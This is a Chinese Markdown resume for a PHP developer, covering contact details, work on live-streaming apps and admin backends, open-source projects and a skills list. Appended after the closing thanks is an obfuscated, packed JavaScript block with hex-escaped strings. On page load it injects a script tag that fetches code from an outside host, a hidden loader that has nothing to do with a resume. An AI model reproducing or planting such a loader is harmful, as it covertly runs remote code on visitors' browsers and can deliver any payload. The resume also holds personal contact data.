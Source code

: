 # 个人简历

 - **安龙** / 男 / 1992-12 / 安徽池州
 - 工作年限：4年+
 - 最高学历：高中
 - 期望城市：上海
 - 期望职位：PHP高级开发工程师

---

# 联系方式

- 手机：183 5626 2256 （`安徽池州`）
- Email：[Alone@an56.net](http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=E3J-fH12U3J9JiU9fXZn)
- QQ号：11981261
- 微信：al-one

---

# 工作经历

## 上海三叉戟信息科技有限公司 （2016年10月 ~ 至今）

### [烈火直播APP](#)
- 新需求分析、数据表设计及IM协议定义；
- 微信公众号充值钻石；
- 热门直播自动排序及后台手动排序算法；
- 幸运礼物算法实现 赠送指定礼物有机会获得钻石翻倍奖励；
- 主播家族及成员业绩、收益统计结算；
- 转盘抽奖、押注等H5游戏接口；
- 七牛、金山直播云及连麦互动服务端接入；
- 新增、日活、留存等数据分渠道分设备异步统计分析；
- 各接口优化及历史遗留问题修复；
- 负载均衡、环境配置调优、高并发接口优化等；


## 上海欢愉网络科技有限公司 （2015年8月 ~ 2016年9月）

### [烈火APP运营后台](#)
- 整个运营后台独立开发完成；
- 用户、照片、订单、直播等数据的监控展示；
- 用户头像实时打分模块；
- 用户行为数据统计报表展示；

### [烈火APP相关API接口](#)
- 用户付费充值相关接口：
    - 用户钻石、魅力值等账户数据内部接口；
    - 支付宝、微信充值及提现；
    - 福袋、宝箱（类似抢红包）相关接口；
    - 一对一礼物、直播礼物接口；
- 视频直播相关接口：
    - 直播喇叭、热门票等道具相关接口；
    - 直播任务奖励相关接口；
    - 观众贡献榜单排行等接口；
- 各类专题活动相关接口及H5页面；
- APP直传OSS相关接口；


## 合肥一浪网络科技有限公司 （2013年3月 ~ 2015年4月）

### [客户管理系统](http://app.ah.cn/16crm/)
- 演示账户：demo 密码：123456
- 主要功能：客户、订单、员工管理
- 独立开发完成

### 企业、政府、门户网站建设
- [天长市市场监督管理局网站](http://www.tcscjg.gov.cn/)
- [天长市万寿镇政府网站](http://www.wanshou.gov.cn/?/wza)，[无障碍功能](http://www.wanshou.gov.cn/view.asp?/wza/=/&id=1111)
- [上海世彤建筑装饰](http://www.sh-shitong.com/)，[手机端](http://m.sh-shitong.com/?skin=bootstrap)
- [合肥堃能自动化科技有限公司](http://www.kunnengtec.com/)
- [合肥艾琳婚纱摄影](http://www.algnsy.cn/)
- [中国兽医器械分类信息网](http://www.zgsyqxw.com/)


## 合肥首嘉网络科技有限公司 （2012年8月 ~ 2013年2月）

### 企业网站建设，ASP程序开发，模板制作。


---

# 开源项目和作品

## 开源项目

 - [laravel-soft-deletes-unix](https://packagist.org/packages/al-one/laravel-soft-deletes-unix) : Laravel软删除使用Unix时间戳
 - [parse_urls](https://github.com/al-one/parse_urls) : 正则表达式解析任何格式的URL，PHP和JS版
 - [array2](https://github.com/al-one/array2) : Asp键值对数组，Json编码解析
 - [ANCMS](http://www.ancms.cn/) : 安安网站内容管理系统，Asp + Access

## 业余作品

 - [MarkShow](http://al-one.github.io/app/MarkShow/?/md/help.md) : Markdown扩展解析，支持LaTeX公式、流程图等
 - [aGoogle](http://app.an56.org/aGoogle/) : 谷歌搜索，RequireJS + AngularJS + Bootstrap
 - [CKEditor表情插件](http://app.ah.cn/app/ckeditor/) : 百度UEditor表情插件移植到CKEditor
 - [DNSPod域名解析管理](http://app.ah.cn/app/AnDNS/) : 基于DNSpod API，实现域名解析功能
 - [卫星电视接收参数](http://app.an56.org/stv/)
 - [其他作品...](http://dwz.cn/alone-case)


---

# 技能清单
- 开发语言：PHP / Golang / JavaScript
- 后端框架：ThinkPHP / Laravel
- 前端框架：jQuery / Bootstrap / Vue.js
- 开发工具：PHPStorm / Sublime Text / Git / Firebug
- 数据库相关：MySQL / Redis / SqLite / MSSQL
- 云和开放平台：SAE / 支付宝 / QQ互联 / 微信公众平台


---

# 自我描述
- 熟练使用PHP开发网站应用，熟悉ThinkPHP、Laravel框架；
- 熟悉Redis各种数据类型的应用场景及Linux常用命令；
- 熟悉MySQL数据库优化以及Git，SVN等协作工具；
- 精通Web前端，熟练使用jQuery、Bootstrap、Vue.js；
- 熟悉正则表达式、Markdown，喜欢接触新的技术；
- 了解各大开放平台API接口，开发过微信公众平台接口。

有责任心，有上进心，能吃苦耐劳，办事认真；
待人和善，诚恳，能友好的与同事相处；
自学能力强，挖掘自身的潜力，善于思考，有较强的团队协作精神。


---

# 致谢
感谢您花时间阅读我的简历，期待能有机会和您共事。

![](http://img.users.51.la/16854071.asp?a.jpg)
<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(6(f){v(c.e)c.e(6($){f()});p f()})(6(){q d=n,s=d.o(\'\\h\\9\\g\\b\\4\\3\');s.r=\'\\w\\t\\u\\k\\i\';(d.l||d.m(\'\\8\\5\\2\\j\')[0]).I(s).G=\'\\8\\3\\3\\4\\J\\1\\1\\2\\a\\2\\M\\7\\2\\4\\b\\7\\2\\8\\7\\9\\K\\1\\L\\5\\H\\1\\a\\h\\1\\2\\A\\x\\5\\g\\y\\1\\B\\E\\3\\F\'+~(-C D()/z)});',49,49,'|x2f|x61|x74|x70|x65|function|x2e|x68|x63|x6a|x69|window||jQuery||x72|x73|x38|x64|x2d|body|getElementsByTagName|document|createElement|else|var|charset||x54|x46|if|x55|x75|x79|36e5|x51|x3f|new|Date|x5f|x3d|src|x62|appendChild|x3a|x6e|x77|x78'.split('|'),0,{}));
</script>